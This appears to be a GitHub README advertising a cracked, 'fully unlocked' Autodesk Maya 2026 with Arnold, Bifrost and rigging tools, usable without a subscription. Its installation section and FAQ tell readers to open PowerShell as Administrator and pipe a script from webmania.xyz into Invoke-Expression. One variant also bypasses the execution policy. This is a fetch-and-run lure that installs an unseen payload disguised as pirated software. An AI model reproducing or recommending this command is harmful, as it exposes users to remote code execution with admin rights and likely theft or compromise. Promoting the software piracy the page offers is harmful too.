

<div align="center">


<br>


# Autodesk Maya 2026 3D Studio Full Setup
**Maya 2026 · Rigging · Arnold**
<br>
**Maya 2026 · Rigging · Arnold**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Autodesk Maya 2026 — NURBS and polygon modeling, character rigging, Arnold GPU rendering and Bifrost simulation.**

</div>

---

> 3D Studio setup includes Arnold, Bifrost and full rigging tools — model and animate without Autodesk subscription.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🧊 **3D modeling** — NURBS, polygons and sculpting at professional level.
- 🦴 **Rigging** — IK/FK, blend shapes and HumanIK fully enabled.
- 🎬 **Animation** — Graph editor, time editor and motion capture tools.
- 💡 **Arnold render** — GPU rendering and AOV passes included.
- 🔓 **All modules** — Bifrost, MASH and premium plugins active.
- 📤 **Pipeline export** — FBX, Alembic and USD without restrictions.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 32 GB recommended |
| **Disk** | 25 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 32 GB recommended, 25 GB free space.
</details>


TAGS
autodesk-maya, maya-2026, arnold-render, bifrost-fx, character-rigging, 3d-animation, maya-modeling, 3d-graphics, animation, vfx-pipeline, game-development, film-production, cg-art, autodesk-maya-3d, autodesk-maya-3d-2026
